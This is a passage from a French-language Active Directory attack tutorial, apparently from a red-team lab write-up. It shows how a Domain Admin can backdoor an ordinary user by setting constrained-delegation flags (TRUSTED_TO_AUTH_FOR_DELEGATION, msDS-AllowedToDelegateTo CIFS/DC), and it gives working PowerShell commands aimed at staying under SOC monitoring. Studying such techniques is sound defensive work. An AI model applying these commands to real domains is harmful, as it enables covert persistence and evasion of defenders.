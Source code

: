 ```cmd
10/20/2020  01:26 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
10/20/2020  01:10 PM    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  36,839,563,264 bytes free
```

# <a name="Persistance"></a>Persistance  

Pour positionner l'attribut **TRUSTED_TO_AUTH_FOR_DELEGATION**, il nous faut le privilège **SeEnableDelegationPrivilege**.  

*Fortunately Microsoft protect any user from setting this flag unless they are listed in the User Rights Assignment setting "Enable computer and user accounts to be trusted for delegation" (SeEnableDelegationPrivilege) on the Domain Controller. So by default only members of BUILTIN\Administrators (i.e. Domain Admins/Enterprise Admins) have the right to modify these delegation settings.*
  
Une méthode de persistance intéressante consiste, à partir d'un utilisateur compromis possédant le privilège ```SeEnableDelegationPrivilege```, à positionner la valeur ```TRUSTED_TO_AUTH_FOR_DELEGATION``` sur un autre utilisateur compromis lambda pouvant être délégué, et à éditer le champs ```msDS-AllowedToDelegateTo``` avec le SPN ```CIFS/DC``` par exemple, permettant ainsi de rejouer l'attaque.  
  
## T2A4D sur un utilisateur arbitraire du domaine
  
Vous êtes admin de dom, cependant les [groupes protégés](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-c--protected-accounts-and-groups-in-active-directory) sont supervisés par le SOC, ces derniers ont leurs descripteurs de sécurité remis en état par le mécanisme de ```SDProp``` ([AdminSDHolder](https://social.technet.microsoft.com/wiki/contents/articles/22331.adminsdholder-protected-groups-and-security-descriptor-propagator.aspx)), etc, autant d'éléments qui vous font dire que vous aimeriez backdoorer un utilisateur qui peut passer le plus de temps possible sous les radars (espérons cependant qu'une délégation vers un DC est supervisée par le SOC).  
  
Jouons cette méthode dans notre lab. L'utilisateur ```bleponge``` est un utilisateur du domaine tout ce qu'il y a de plus banal, ```admin01``` est ce pour quoi vous avez tant sué ces derniers jours:  
  
```powershell
PS C:\> WMIC OS Get Name
Name
Microsoft Windows 10 Education N|C:\Windows|\Device\Harddisk0\Partition2

PS C:\> whoami
windomain\admin01

PS C:\> net user admin01 /domain | Select-String "Group"

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins

PS C:\> net user bleponge /domain | Select-String "Group"

Local Group Memberships
Global Group memberships     *Domain Users

PS C:\> Get-ADObject -Identity bleponge -Properties distinguishedName,samAccountName,samAccountType,userAccountControl,msDS-AllowedToDelegateTo,servicePrincipalName | fl

useraccountcontrol : NORMAL_ACCOUNT
distinguishedname  : CN=Bob ble. Leponge,CN=Users,DC=windomain,DC=local
samaccountname     : bleponge
samaccounttype     : USER_OBJECT

PS C:\> Get-ADUser -Identity bleponge | Set-ADAccountControl -TrustedToAuthForDelegation $True
PS C:\> Set-ADUSer -Identity bleponge -Add @{'msDS-AllowedToDelegateTo'=@('CIFS/DC.WINDOMAIN.LOCAL','CIFS/DC')}
```
